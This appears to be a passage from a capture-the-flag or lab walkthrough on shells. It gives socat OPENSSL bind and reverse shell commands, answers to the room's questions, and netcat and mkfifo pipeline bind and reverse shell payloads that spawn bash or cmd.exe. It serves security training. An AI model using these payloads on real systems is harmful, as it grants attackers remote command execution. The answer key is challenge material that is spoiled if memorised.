 Target:
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:
```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:
![](https://i.imgur.com/UbOPN9q.png)

This technique will also work with the special, Linux -only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

```
What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
> socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

```
If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
> socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Task 8 - Common Shell Payloads 

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the ```nc.exe``` Windows version included with Kali at ```/usr/share/windows-resources/binaries```, and the version used in Kali itself: ```netcat-traditional```) there is a ```-e``` option which allows you to execute a process on connection. For example, as a listener:
```bash
nc -lvnp <PORT> -e /bin/bash
```

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with ```nc <LOCAL-IP> <PORT> -e /bin/bash``` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux , however, we would instead use this code to create a listener for a bind shell:
```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
